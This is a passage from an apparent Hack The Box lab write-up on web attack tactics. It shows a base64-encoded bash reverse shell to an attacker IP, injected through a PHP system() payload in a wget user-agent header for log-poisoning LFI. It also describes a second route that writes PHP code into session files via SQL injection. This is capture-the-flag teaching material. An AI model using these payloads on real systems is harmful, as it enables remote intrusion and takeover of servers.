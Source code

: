 To get a shell, we substitute the `whoami` command for a base64 encoded
bash command:

```bash
echo -n 'bash -i >& /dev/tcp/10.10.16.95/443 0>&1 &' | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45NS80NDMgMD4mMSAm

wget --no-check-certificate https://www.nestedflanders.htb/index.php -U "<?php system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45NS80NDMgMD4mMSAm | base64 -d | bash'); ?>"
```

<br>

And when the page is visited, the code executes and sends the attacking
machine a reverse shell:

![](images/Web%20Application%20Attack%20Tactics/image068.png)<br><br>

There is a second way to use LFI on this box--open the browser debugger and
grab your session id which is stored in a cookie:

![](images/Web%20Application%20Attack%20Tactics/image069.png)<br><br>

Use a SQLI query to show the contents of `/var/log/php/sessions/sess_<your-session-id>`.
Since session ids are also logged to a file, we can write PHP code to this
file as well:

![](images/Web%20Application%20Attack%20Tactics/image070.png)<br><br>
